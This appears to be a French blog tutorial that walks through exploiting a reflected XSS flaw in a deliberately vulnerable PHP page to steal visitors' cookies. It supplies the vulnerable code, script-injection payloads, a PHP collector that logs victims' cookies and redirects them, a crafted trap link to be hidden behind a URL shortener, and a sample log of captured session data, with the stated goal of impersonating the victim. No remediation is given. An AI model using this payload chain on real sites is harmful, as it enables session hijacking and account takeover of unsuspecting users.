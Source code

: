 ```yaml
---
layout: post
category : tutoriel
tagline: ""
tags : [latex]
---
```

{% include JB/setup %}

Des failles, on en laisse à la pelle. Pour preuve, j'en ai encore corrigé hier sur ce site et je suis convaincu qu'il en reste et qu'il en restera toujours (PS : l'utilisation d'un framework simplifie largement la sécurisation d'un site). 

Essayons d'exploiter la faille XSS pour effectuer un vol de cookie !

*****

# Repérer la faille

Le but est de trouver une page sur un site ou nous pouvons injecter du code javascript, prenons cette page par exemple :

    <?php
     
    if ( isset($_GET['message']) ) {
    	echo $_GET[message];
    } else {
    	echo '<a href="vuln.php?message=Bonjour">Dire bonjour</a>';
    }
     
    ?>

Parfait nous avons notre exemple.
Essayons de l'appeler avec quelques paramètres :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(1)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss1.png)

Oh la jolie alerte Il y a surement moyen de faire quelque chose avec ça !

Essayons d'aller plus loin, que pouvons nous obtenir de la page ?

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(document.cookie)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss2.png)

Vous avez compris que ça devient intéressant !

# Préparation du piège

Notre objectif je le rappel est de voler les cookies de notre cible. A ce point nous pourrions modifier le contenu de la page en envoyant une url personnalisée à un visiteur et bien d'autres choses. 

En volant les cookies nous pourrions nous faire passé par notre victime et donc nous connecter à sa place.

Imaginons l'idée suivante, on va diriger l'utilisateur vers une page en lui prenant ses cookies au passage, puis on enregistra ses cookies et on le redirigera vers la destination de notre choix afin qu'il ne se doute de rien.

    <?php
     
    if(isset($_GET['c']) && is_string($_GET['c']) && !empty($_GET['c'])) {
     
    	$referer = $_SERVER['HTTP_REFERER'];
    	$date = date('d-m-Y \à H\hi');
    	$data = "From :   $referer\r\nDate :   $date\r\nCookie : ".htmlentities($_GET['c'])."\r\n------------------------------\r\n";
     
    	$handle = fopen('cookies.txt','a');
    	fwrite($handle, $data);
    	fclose($handle);
     
    }
     
     
    // et on envoie la cible où l'on veut pour détourner son attention ;)
    ?>
    <script language="javascript" type="text/javascript">
    	window.location.replace("http://www.plop.org");
    </script>

Pour piéger notre victime, il suffira de lui envoyer un lien de ce type :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
	
Bien sur un petit coup de tinyurl et il ne se doutera de rien !


# Résultat

Voyons si la pêche à été bonne, regardons le contenu de notre fichier texte : 

    From :   http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
    Date :   10-10-2010 à 00h27
    Cookie : saffir_login=victime; saffir_pass=ab4f63f9ac65152575886860dde480a1; __utmz=96992031.1282937148.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=fdbceu2i112mt0j6vavr7mgp76; __utma=96992031.1472722046.1286240095.1286645182.1286656603.10; __utmc=96992031; __utmb=96992031.176.10.1286656603
    ------------------------------

Il ne nous reste qu'a remplacer nos cookies par ceux de la victime pour se faire passer pour elle, fatale.

Pour plus de détails, voir l’article sur [développez](http://julien-pauli.developpez.com/tutoriels/securite/developpement-web-securite/?page=xss).


[test 404](/non-existing-file).
